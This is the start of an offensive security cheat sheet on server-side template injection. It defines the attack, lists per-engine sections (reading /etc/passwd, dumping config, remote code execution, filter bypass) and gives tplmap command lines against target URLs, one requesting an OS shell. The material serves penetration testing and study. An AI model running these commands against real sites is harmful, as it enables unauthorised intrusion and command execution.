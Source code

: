 # Templates Injections

> Template injection allows an attacker to include template code into an existant (or not) template. A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [Ruby](#ruby)
  * [Basic injection](#basic-injection)
  * [Retrieve /etc/passwd](#retrieve--etc-passwd)
  * [List files and directories](#list-files-and-directories)
* [Java](#java)
  * [Basic injection](#basic-injection)
  * [Retrieve the system’s environment variables](retrieve-the-system-s-environment-variables)
  * [Retrieve /etc/passwd](#retrieve--etc-passwd)
* [Twig](#twig)
  * [Basic injection](#basic-injection)
  * [Template format](#template-format)
  * [Code execution](#code-execution)
* [Smarty](#smarty)
* [Freemarker](#freemarker)
  * [Basic injection](#basic-injection)
  * [Code execution](#code-execution)
* [Jade / Codepen](#jade---codepen)
* [Velocity](#velocity)
* [Mako](#mako)
* [Jinja2](#jinja2)
  * [Basic injection](#basic-injection)
  * [Template format](#template-format)
  * [Dump all used classes](#dump-all-used-classes)
  * [Dump all config variables](#dump-all-config-variables)
  * [Read remote file](#read-remote-file)
  * [Write into remote file](#write-into-remote-file)
  * [Remote Code Execution](#remote-code-execution)
  * [Filter bypass](filter-bypass)
* [Jinjava](#jinjava)
  * [Basic injection](#basic-injection)
  * [Command execution](#command-execution)

## Tools

Recommended tool: [Tplmap](https://github.com/epinna/tplmap)
e.g:

```powershell
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```
